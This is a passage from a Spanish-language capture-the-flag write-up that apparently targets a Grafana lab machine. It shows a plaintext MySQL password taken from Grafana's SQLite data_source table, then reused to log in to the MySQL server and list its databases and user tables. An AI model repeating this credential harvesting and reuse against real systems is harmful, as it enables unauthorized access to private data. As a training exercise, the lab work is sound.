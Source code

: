 Bueno si nos podemos a enumerar todas las tables vemos que esta tiene contenido interesante 

```bash
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-06-12 17:18:37|0|{}|1|uKewFgM4z
sqlite> 
```

Tenemos una contraseña para `mysql` **dontStandSoCloseToMe63221!** pero si recordamos nos decían esto **If the password contains # or ; you have to wrap it with triple quotes.** pero en este caso no aplica por la contraseña no tiene ninguno de esos caracteres y nos podemos conectar con esa contraseña 

```bash
❯ mysql -u 'grafana' -p -h 10.10.11.183
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

```

Vemos las bases de datos

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.122 sec)

MySQL [(none)]> 

```

Aquí vemos una tabla interesante para esa base de datos

```bash
MySQL [(none)]> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.112 sec)

MySQL [whackywidget]> 
```
